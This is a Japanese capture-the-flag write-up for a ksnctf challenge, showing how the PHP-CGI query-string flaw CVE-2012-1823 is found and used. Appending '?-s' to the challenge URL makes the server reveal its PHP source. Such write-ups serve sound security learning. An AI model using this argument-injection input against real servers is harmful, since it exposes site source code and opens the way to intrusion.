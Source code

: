 ## 問題

与えらえたURLにアクセスすると、時刻のようなものが表示される。

![Image 1](ksnctf_q12_1.jpg)

## 解法

リロードすると、値が変わる。

![Image 2](ksnctf_q12_2.jpg)

`2012:1823`で検索すると、`CVE-2012-1823`というPHPの脆弱性がヒットする。

`curl`でレスポンスヘッダーを見ると、確かにPHPが使われているようだ。

```bash
$ curl https://ctfq.u1tramarine.blue/q12/ -i
HTTP/2 200 
server: nginx
date: Tue, 19 Sep 2023 12:16:42 GMT
content-type: text/html
x-powered-by: PHP/5.4.1
```

脆弱性対策データベースによると、

> PHP には、CGI として使用される設定において query string をコマンドラインオプションとして認識してしまう脆弱性が存在します。

だそうです。

[JVNDB-2012-002235 - JVN iPedia - 脆弱性対策情報データベース](https://jvndb.jvn.jp/ja/contents/2012/JVNDB-2012-002235.html)

PHPのコマンドラインオプションは、[PHP: オプション - Manual](https://www.php.net/manual/ja/features.commandline.options.php)から、
調べることが、できる。

試しにソースコードを出力する`-s`オプションをurlにつけた、`https://ctfq.u1tramarine.blue/q12/?-s`でアクセスしてみると、
ソースコードが開示された。

```php
<?php

    //  Flag is in this directory.

    date_default_timezone_set('UTC');
    
    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p><?php echo $t; ?></p>
  </body>
</html>
```

どうやら、このソースコードがあるディレクトリにFLAGがある様子。